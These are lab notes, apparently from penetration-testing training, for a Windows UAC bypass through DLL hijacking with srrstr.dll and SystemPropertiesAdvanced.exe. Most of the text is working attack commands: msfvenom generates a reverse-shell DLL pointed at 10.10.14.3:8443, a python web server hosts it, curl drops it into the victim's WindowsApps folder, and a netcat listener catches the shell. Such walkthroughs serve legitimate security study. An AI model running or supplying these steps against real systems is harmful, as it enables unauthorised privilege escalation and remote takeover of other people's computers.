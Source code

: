 #### Checking Windows Version
```PowerShell
[environment]::OSVersion.Version
```
You can reference more information regarding the OS version at: https://en.wikipedia.org/wiki/Windows_10_version_history. *The example for the reading and lab is version 14393.*

#### UACMe Project
Link: https://github.com/hfiref0x/UACME
Maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. 

#### Reviewing Path Variable
```PowerShell
cmd /c echo %PATH%
```
We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

#### Generating Malicious srrstr.dll DLL
```Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

#### Starting Python HTTP Server on Attack Host
```Shell
python3 -m http.server 8080
```
Sets up a Python mini webserver to host the DLL

#### Downloading DLL Target
```PowerShell
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Starting an nc Listener on Attack Host
```Shell
nc -lnvp 8443
```

#### Testing Connection
```cmd.exe
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
If we execute the malicious `srrstr.dll` file, we will receive a shell back showing normal user rights (UAC enabled). To test this, we can run the DLL using `rundll32.exe` to get a reverse shell connection.

*Test this with the netcat shell using `whoami /priv`*

#### Executing SystemPropertiesAdvanced.exe on Target Host
```cmd.exe
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```
Execute the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host. *Note: You don't have to restart the netcat listener before running this executable.*
